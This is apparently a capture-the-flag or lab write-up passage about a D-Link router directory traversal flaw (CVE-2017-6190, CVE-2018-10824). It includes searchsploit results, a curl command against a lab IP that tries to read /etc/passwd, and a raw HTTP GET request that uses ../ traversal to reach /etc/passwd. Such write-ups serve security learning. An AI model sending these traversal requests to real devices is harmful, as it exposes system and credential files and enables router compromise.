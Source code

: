 Exploit Title | Path

-------------------------------------------------------------------------------------------- ---------------------------------

D-Link Routers - Directory Traversal | hardware/webapps/45678.md

-------------------------------------------------------------------------------------------- ---------------------------------

-------------------------------------------------------------------------------------------- ---------------------------------

Shellcode Title | Path

-------------------------------------------------------------------------------------------- ---------------------------------

Linux/x64 - Bind_tcp (0.0.0.0:4444) + Password (12345678) + Shell (/bin/sh) Shellcode (142 | linux/49472.c

-------------------------------------------------------------------------------------------- ---------------------------------

Papers: No Results

From the research, it is interesting to note that the vulnerability can be used to retrieve administrative passwords using the other disclosed vulnerability - CVE-2018-10824.

This vulnerability was reported previously by Patryk Bogdan in CVE-2017-6190 but he reported it is fixed in certain releases but unfortunately, it is still present in even newer releases. The vulnerability is also present in other D-Link routers and can be exploited not only (as the original author stated) by double dot but also using double slash.

Let's try to curl the IP address file location of passwd:

-[Wed Feb 28-17:23:50]-[table@parrot]-

-[~]$ curl http://10.10.11.230/uir//etc/passwd

<html>

<head><title>301 Moved Permanently</title></head>

<body>

<center><h1>301 Moved Permanently</h1></center>

<hr><center>nginx/1.18.0 (Ubuntu)</center>

</body>

</html>

Interestingly, we can check online to see if searching the previously known vulnerability that was not fixed, CVE-2017-6190, yields anything more.

We find in exploit-db exploit #41840, we see:

HTTP Request:

GET /uir/../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
